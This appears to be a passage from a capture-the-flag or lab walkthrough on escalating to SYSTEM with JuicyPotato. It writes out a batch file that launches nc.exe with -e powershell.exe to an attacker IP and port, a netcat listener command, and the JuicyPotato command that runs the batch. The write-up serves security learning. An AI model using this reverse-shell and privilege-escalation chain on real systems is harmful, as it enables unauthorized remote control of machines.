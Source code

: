 ### Create Privilege Shell 

- Create a batch file that will be executed by the exploit(JuicyPotato), and return a SYSTEM shell. 
```
# echo START <victim's nc file location> -e powershell.exe <attacker ip> <attacker port> > <batch file>

# echo START C:/inetpub/wwwroot/wordpress/wp-content/uploads/nc.exe -e powershell.exe 10.10.14.150 1111 > shell.bat
```
![](./IMG/21.png)

- Create another nc listener on attack machine

```
# nc -lvnp 1111
```
![](./IMG/22.png)

- Juicy Potato execute the batch to create PS shell (system permisson )

```
# JP.exe -t * -p C:/inetpub/wwwroot/wordpress/wp-content/uploads/Shell.bat -l 1337
```

![](./IMG/23.png)
